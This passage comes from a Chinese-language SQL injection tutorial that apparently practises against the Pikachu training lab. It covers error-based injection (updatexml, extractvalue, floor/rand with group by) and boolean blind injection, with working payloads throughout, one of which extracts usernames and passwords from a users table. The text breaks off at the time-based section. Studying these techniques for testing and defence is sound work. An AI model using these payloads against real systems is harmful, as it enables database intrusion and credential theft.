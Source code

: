     ' and updatexml(0,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu' limit 1,1)),1)#
    
        

在这里只能查一个字段，而不能查两个字段，否则就会查询多个字段，而不能显示一行，从而报错。

extractvalue():

    extractvalue(0,concat(0x7e,version()))
    
        

只有两个参数，第一个参数是doc，第二个参数是xpath(错误就会报错)

floor(取整函数)：-
报错的条件：有concat,floor,group by-
payload:

     ' and (select 2 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)#
    
        

注意报错注入使用的连接符是and。-
payload：

    and (select 1 from (select count(*),concat((select concat(username,password) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)--+
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216135055791.png)

前面为username ，后面为password用@分开。-
使用concat将(password和username)组合成一个字符串，在来用select 查询-
使用updatexml函数：

    and updatexml(1,concat('^',version(),'^'),1)--+
    
        

### 布尔盲注：

当后台屏蔽了报错信息的时候我们在这时候，就需要利用盲注来实现猜字段了。-
1.基于布尔(正确或者错误)的盲注-
因为要保证前后的错误一致性，所以要使用and连接符。-
eg：-
当页面会返回正确和错误两种页面时，这时候就可以利用布尔盲注了。-
利用：-
and 1=1–+ 和and 1=2–+来达到判断是否存在注入。

payload：

    and length(database())=8--+
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216144002146.png)

如果后面的语句是对的，就会返回一个正确的页面，而不返回正确的页面，就说明，后面的语句是错的。

### 基于时间的盲注
